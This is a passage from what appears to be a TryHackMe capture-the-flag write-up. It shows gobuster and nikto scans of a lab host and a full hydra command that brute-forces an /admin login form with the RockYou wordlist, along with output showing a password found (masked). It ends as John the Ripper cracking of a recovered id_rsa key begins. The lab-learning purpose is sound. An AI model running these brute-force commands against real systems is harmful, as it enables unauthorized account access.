 ```python
/admin                (Status: 301) [Size: 314] [--> http://10.10.176.145/admin/]
/server-status        (Status: 403) [Size: 278]
/panel                (Status: 301) [Size: 320] [--> http://10.10.176.145/admin/panel/]
```

Also see: [gobuster.log](gobuster.log) and [gobuster-admin.log](gobuster-admin.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x`

Interesting info found:

```python
TBD                                   
```

Also see: [nikto.log](nikto.log)

### Running: `hydra`

When we see that `gobuster` found a `/admin/` URL, we View Source of the page and see that the username is `admin`. So, for giggles, lets send `hydra` trying the RockYou passwords for account `admin` on that login form:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
    10.10.10.10 http-post-form \
    "/admin/:user=^USER^&pass=^PASS^:F=invalid" -I 2>&1 | tee $ROOM/hydra.log
```

Sure enough, we find the password:

```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-12 20:54:34
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.176.145:80/admin/:user=^USER^&pass=^PASS^:F=invalid
[80][http-post-form] host: 10.10.176.145   login: admin   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-12 20:55:02
```

We can now log into the `/admin/` website portal where we have an `id_rsa` file, and also the web flag for the TryHackMe room. We also get a potential username `john`.

Also see: [hydra.log](hydra.log) and [id_rsa.txt](id_rsa.txt)

### John the Ripper

We have an `id_rsa` file that is password-protected. We need to get the file into a format that John the Ripper can use, so we run:

